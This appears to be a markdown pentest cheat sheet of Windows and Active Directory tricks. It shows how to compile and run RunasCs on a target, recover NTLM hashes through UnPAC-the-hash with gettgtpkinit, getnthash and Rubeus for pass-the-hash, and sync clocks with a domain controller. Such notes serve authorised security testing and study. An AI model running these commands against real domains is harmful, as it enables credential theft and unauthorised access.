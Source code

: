 # Tricks & Utilities

- [Tricks \& Utilities](#tricks--utilities)
  - [Windows](#windows)
    - [RunasCs](#runascs)
    - [Unpac hash](#unpac-hash)
    - [Synchronising time with AD](#synchronising-time-with-ad)

## Windows

### RunasCs

RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

- https://github.com/antonioCoco/RunasCs

```powershell
# compile RunasCs on the target with the available .NET version
# NET4
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs

# NET2
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe -target:exe -optimize -out:RunasCs_net2.exe RunasCs.cs

# run command as another user
.\RunasCs.exe <user> <password> <command>
```

### Unpac hash

When using `PKINIT ` to obtain a TGT, the KDC include NTLM hash. It can be recovered to do pass-the-hash. 

```bash
# UNIX
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'

# Windows
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

> More information at [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)

### Synchronising time with AD

```bash
# using ntpdate
sudo ntpdate -u <DC_IP>

# faketime
faketime '2023-12-20 02:13:00'

# net time
sudo net time set -S <DC_IP>
```
